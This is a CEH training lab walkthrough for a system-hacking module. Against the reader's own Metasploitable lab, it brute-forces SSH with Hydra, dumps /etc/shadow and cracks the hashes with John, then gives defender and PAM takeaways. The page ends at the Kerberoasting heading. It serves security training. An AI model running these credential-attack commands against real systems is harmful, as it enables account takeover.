

repository: morandeirachema/CyberCerts · page: certs/ceh/modules/06-system-hacking/lab-walkthrough/index.html · generator: mkdocs

# Module 06 — System Hacking · Guided Lab Walkthrough

> A step-by-step, **do-it-in-order** lab against **your own** environment only (the AD + Metasploitable lab in [`../../labs/`](../../labs/README.md) — see [`../../labs/topology.md`](../../labs/topology.md)). Each step gives the command, what you should observe, a hint, and the defender/PAM takeaway. Outputs shown are **representative** — yours will differ.

**Goal:** walk the credential-attack chain end-to-end, then *watch a PAM control turn each win into a loss.*

**Targets:** Kali `192.168.56.10` · Metasploitable2 `192.168.56.20` · Windows DC `192.168.56.30` (`ceh.lab`).

**Prereqs:** lab is up (`labs/scripts/setup.sh`), you can ping the targets, and `rockyou.txt` is unpacked (`/usr/share/wordlists/rockyou.txt`).

---

## Part A — Online guessing → offline cracking (the speed lesson)

### A1. Online brute force over SSH (active online attack)
```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.20 -t 4 -f
```
**You should see** Hydra stop on a valid pair:
```
[22][ssh] host: 192.168.56.20   login: msfadmin   password: msfadmin
1 of 1 target successfully completed, 1 valid password found
```
**Observe:** this is *slow* and *loud* — every attempt is a network round-trip and a log line on the target (`/var/log/auth.log`).

<details><summary>Hint if Hydra hangs</summary>Metasploitable's old SSH is picky — add `-t 4` (fewer threads) and `-f` (stop on first hit). If it still stalls, confirm port 22 is open with `nc -nv 192.168.56.20 22`.</details>

### A2. Grab and crack the hash offline
```bash
# from an SSH session on the target (msfadmin/msfadmin), then off-box:
sudo cat /etc/shadow | grep -E 'msfadmin|user' > shadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
john --show shadow.txt
```
**You should see** John recover the password in seconds:
```
msfadmin:msfadmin
1 password hash cracked
```
**Observe:** offline is *orders of magnitude faster* and produces **zero** log lines on the target. **This is the core lesson: capture-then-crack beats online guessing.**

**Defender/PAM view:** online guessing is caught by lockout + `4625` spikes; the offline path is caught only by protecting the hash store and using slow, salted KDFs. A [PAM broker](../../defender-pam/pam-architecture.md) with rate-limiting neutralizes A1 entirely.

---

## Part B — Kerberoasting, and the control that kills it
